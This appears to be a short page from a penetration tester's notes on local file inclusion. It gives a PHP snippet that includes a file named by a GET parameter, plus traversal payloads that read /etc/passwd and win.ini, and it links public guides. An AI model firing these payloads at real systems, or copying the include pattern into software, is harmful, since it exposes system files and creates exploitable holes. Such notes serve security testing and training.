 # Manual

```php
<?php
$file = $_GET['file'];
if(isset($file)) {
	include($file);
}
?>
```

## Detection

Navigating directories

### Linux

```
../../../etc/passwd
/etc/passwd
```

### Windows

```
/windows/win.ini
\\localhost\c$\windows\win.ini
```

---
## References

### Backlinks

- [[Path Traversal Payloads|Path Traversal Payloads]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xG - Log Files/Manual/Living off the Land|Log Files]]

### Payloads All The Things

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Path Traversal](https://www.hackingarticles.in/comprehensive-guide-on-path-traversal/)

### SecurityIdiots

- [SecurityIdiots: Guide to LFI](https://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)

### Bordergate

- [Bordergate: Local File Inclusion (LFI) Attacks](https://www.bordergate.co.uk/local-file-inclusion-attacks/)